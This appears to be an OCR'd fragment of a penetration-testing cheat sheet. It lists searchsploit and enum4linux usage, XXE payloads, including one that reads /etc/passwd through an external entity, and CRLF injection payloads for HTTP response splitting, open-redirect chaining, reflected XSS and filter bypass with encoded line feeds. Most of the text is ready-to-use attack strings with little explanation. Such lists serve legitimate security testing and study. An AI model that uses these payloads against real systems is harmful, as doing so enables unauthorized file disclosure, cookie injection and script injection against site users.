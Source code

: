               
searchsploit (Exploit search for exploit-db)
          searchsploit service version

Enum4linux
====================
    
      Enum4linux is a tool for enumerating information from Windows and Samba systems.

      **Ussage**
         enum4linux ip_address
         
XXE
==================== 
     
      Basic Payloads

      <!DOCTYPE replace [<!ENTITY name "feast"> ]>
      <userInfo>
      <firstName>falcon</firstName>
      <lastName>&name;</lastName>
      </userInfo>
 
 
 
      <?xml version="1.0"?>
      <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
      <root>&read;</root>
      
      
CRLF-Injection
====================

      A Carriage Return Line Feed (CRLF) Injection vulnerability occurs when an application does not sanitize 
      user input correctly and allows for the insertion of carriage returns and line feeds, input which for 
      many internet protocols, including HTML, denote line breaks and have special significance.
    
      For example, Parsing of HTTP message relies on CRLF characters **(%0D%0A which decoded represent \r\n)** 
      to identify sections of HTTP messages, including headers.
      
      - HTTP Response Splitting
        - /%0D%0ASet-Cookie:mycookie=myvalue
      
      - CRLF chained with Open Redirect
        - //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2                     
        -  /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2                       
        -  /google.com/%2F..%0D%0AHeader-Test:test2
        - /%0d%0aLocation:%20http://example.com
     
      - CRLF Injection to XSS
        - /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
        -/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
     
      -Filter Bypass
         - %E5%98%8A = %0A = \u560a
         - %E5%98%8D = %0D = \u560d
         - %E5%98%BE = %3E = \u563e (>)
         - %E5%98%BC = %3C = \u563c (<)
         - Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
 